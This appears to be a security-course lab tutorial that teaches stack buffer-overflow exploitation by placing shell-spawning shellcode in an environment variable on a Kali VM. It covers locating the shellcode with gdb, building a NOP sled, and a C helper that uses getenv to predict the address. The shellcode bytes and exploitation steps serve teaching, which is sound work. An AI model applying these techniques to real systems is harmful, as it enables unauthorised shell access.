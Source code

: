 # Exploit using the Environment

## Requirements

For this lab we will be using the default kali linux 2020.2 VM.

---

In the previous tutorials, we have seen how to exploit a buffer-overflow vulnerability by injecting shellcode directly into the buffer and overwriting the stack.

Sometimes we won't have the luxury to have a buffer long enough for our shellcodes. Indeed some shellcodes are more complex and can be up to 100 bytes long without the NOP sled and the return address.

To solve this issue we can stash our shellcode somewhere else in memory. 

While executing a program, the environment variables will be pushed on the stack so they can be accessed while the program is running. It seems like a perfect place to put some shellcode if we can find where in memory it sits.

## Adding environment variable

The first step is to create an env variable that contains our shellcode. We will first try with some dummy text, eg 'test', and see if we can see where it sits in memory.

This can be easily done with the `export` command :
```console
$ export MYVAR=hacked
$ echo $MYVAR
hacked
```

We can list the environment variables with the `env` command :
```console
$ env
SHELL=/bin/bash
MYVAR=hacked
PWD=/home/kali/Documents/Security/LINGI2144-2020-2021/env-variable
LOGNAME=kali
XDG_SESSION_TYPE=tty
HOME=/home/kali
LANG=en_US.UTF-8
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
SSH_CONNECTION=10.0.2.2 51744 10.0.2.15 22
XDG_SESSION_CLASS=user
TERM=xterm-256color
USER=kali
SHLVL=1
XDG_SESSION_ID=5
XDG_RUNTIME_DIR=/run/user/1000
SSH_CLIENT=10.0.2.2 51744 22
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus
SSH_TTY=/dev/pts/1
OLDPWD=/home/kali/Documents/Security/LINGI2144-2020-2021/shellcodes
_=/usr/bin/env
```
We can find our variable on the second line.

Of course we can also put some shellcode in an environment variable. We can use `$(cat ...)`to append our shellcode binary to a variable like this :

```console
$ export SHELLCODE=$(cat shellcode.bin)
$ echo $SHELLCODE
1?1?1ə??̀j
         XQh//shh/bin??Q??S??̀
```
❓This shellcode does not have a NOP sled so it would be hard to hit the right address. Add some NOP before your shellcode and save it in the $SHELLCODE variable.

Great we now need to find where in memory this shellcode is located. We can run our exploit program in `gdb` to inspect the stack.

❓Run the program on gdb, break at main, inspect the stack and find your env variable.

💡 HINT To inspect strings use `x/24s` instead of `x/**wx`. 

💡 HINT The environment variables are at a higher address so you might need to add some offset to the stack pointer.

<details>
  <summary>If you can't find it click here.</summary>
         
  ```console
  $ gdb -q exploit
  (gdb) b main
  (gdb) run AAAA
  Breakpoint 1, 0x00401216 in main ()
  (gdb) i r esp
  esp            0xbffff4b4          0xbffff4b4
  (gdb) x/24s $esp + 0x240
  0xbffff624:	"A"
  0xbffff626:	"SHELL=/bin/bash"
  0xbffff636:	"SHELLCODE=", '\220' <repeats 190 times>...
  0xbffff6fe:	"\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061ə\260\244̀j\vXQh//shh/bin\211\343Q\211\342S\211\341̀"
  0xbffff72c:	"MYVAR=hacked"
  0xbffff739:	"PWD=/home/kali/Documents/Security/LINGI2144-2020-2021/env-variable"
  0xbffff77c:	"LOGNAME=kali"
  [...]
  ```
         
</details>

Now that you have located your variable you can pick an address in the middle of your NOP sled. For me a suitable address is : 0xbffff69a

<details>
  <summary>If you can't find a suitable address click here.</summary>
         
  Once you have your variable address you can go to the middle of the sled by adding an offset.
  
  ```console
  (gdb) x/s 0xbffff636
  0xbffff636:	"SHELLCODE=", '\220' <repeats 190 times>...
  (gdb) x/s 0xbffff636 + 100
  0xbffff69a:	'\220' <repeats 110 times>, "\061\300\061\333\061ə\260\244̀j\vXQh//shh/bin\211\343Q\211\342S\211\341̀"
  ```
  
  0xbffff69a will be my address.
</details>

So if we run our vulnerable program with the address of our shellcode repeated in a large amount we should hit the `EIP`and execute our shellcode.

❓ Spawn a shell using the environment variable.


## Go even further

That's cool but that's a bit trivious because we still need to guess the shellcode's address. Hopefully there is a system call that will help us great time by giving us the address of the environment variable at runtime : `getenv` !

❓ Write a small piece of C code that takes an environment variable as input and prints its address. 

Eg :
```console
$ ./getenv SHELLCODE
SHELLCODE is at 0xbffff636
```

When you got your little helper you can check if the exploit still works with the given address.

❓ Exploit the vulnerable program using the given address.

### Sledless

That's good but our shellcode is still a bit long with all those NOP ops at the beginning so let's try to remove them !

❓ Put into SLEDLESS your shellcode without NOP sled.

❓ Use your helper to fetch the address of SLEDLESS and try to spawn a shell.

Whoops it seems the address is not correct anymore. We should try to invesigate what could cause the address to change when running another program (the helper). 

❓ Change the name of your helper binary and fetch the address of the shellcode. Try different lengths for example.

❓ Try to found a pattern between the addresses that you get.

<details>
  <summary>If you can't find a the pattern click here.</summary>
         
  ```console
$ cp a.out a
$ ./a SLEDLESS
SLEDLESS will be at 0xbffffea1
$ cp a.out bb
$ ./bb SLEDLESS
SLEDLESS will be at 0xbffffe9f
$ cp a.out ccc
$ ./ccc SLEDLESS
SLEDLESS will be at 0xbffffe9d
  ```
  
  If you look closely you can see that when we make the name of the program longer, the address decreases. Between `./ccc` and `./bb` we got `0xbffffe9f - 0xbffffe9d = 2 bytes` and the same amount between `./bb` and `./a`. It looks like we decrease the address by two bytes for every additionnal char in the program name.
</details>

When you think you found the pattern you can edit your previously used helper to predict the right address of the shellcode.

❓ Write a C program that successfully predict the shellcode's address.

💡 HINT It might seem a bit hard so here are the steps if you are stuck :
<details>
  <summary>If you can't predict the address click here.</summary> 
         
- store the address of the shellcode in a pointer
         
- compute the difference of length between your helper program name and your vulnerable program name

- multiply the difference with the pattern you found previously

- add the result to your shellcode address.
         
**Explanation** When we fetch the shellcode's address from our helper program (let's say `./getenvaddr`) we first need to remove the length of this program name from the shellcode's address. Then we need to add the length of our vulnerable program name.
```C
char *ptr;
ptr = getenv(argv[1]);
ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
/**               │                 │        │
*            ./getenvaddr      ./exploit   pattern        
*              12 bytes          9 bytes   2 bytes
*                 └────────┬────────┘        │
*                       3 bytes              │
*                          └────────┬────────┘
*                                6 bytes
*/
```
</details>


❓ Spawn a shell using the predicted shellcode's address.
